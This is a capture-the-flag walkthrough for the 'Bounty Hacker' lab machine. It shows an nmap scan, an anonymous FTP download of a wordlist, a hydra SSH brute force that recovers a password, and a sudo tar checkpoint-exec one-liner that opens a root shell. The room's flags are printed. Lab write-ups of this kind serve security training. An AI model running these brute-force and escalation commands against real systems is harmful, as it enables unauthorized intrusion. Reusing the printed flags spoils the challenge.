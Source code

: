 # Bounty Hacker

```sh
export IP=machine_ip
```

## Enumeration: nmap

```sh
nmap -A -sC -sV $IP
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-08-29 17:51 WEST
Nmap scan report for $IP
Host is up (0.079s latency).
Not shown: 967 filtered ports, 30 closed ports

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.106.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.61 seconds
```

## Initial access: FTP

```sh
ftp $IP
Connected to $IP.
220 (vsFTPd 3.0.3)
Name ($IP:z0d1ac): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get locks.txt
ftp> get task.txt
```

<details>
  <summary><i>locks.txt</i></summary>

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

</details>

<details>
  <summary><i>task.txt</i></summary>

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

</details>

## Brute force: hydra

We assume that the username is **lin**, we could also perform a ssh username enumeration to retreive this info.

```sh
hydra $IP -l lin -P ~/Downloads/locks.txt -t 4 ssh
```

```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-29 18:07:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://$IP:22/
[22][ssh] host: $IP   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
```

## Login via ssh

```sh
ssh lin@$IP
```

<details>
  <summary><i>user.txt</i></summary>

```
$ cat ~/user.txt
THM{CR1M3_SyNd1C4T3}
```

</details>

## Privilege escalation

[GTFObins tar](https://gtfobins.github.io/gtfobins/tar/#sudo)

```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<details>
  <summary><i>root.txt</i></summary>

```
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```

</details>
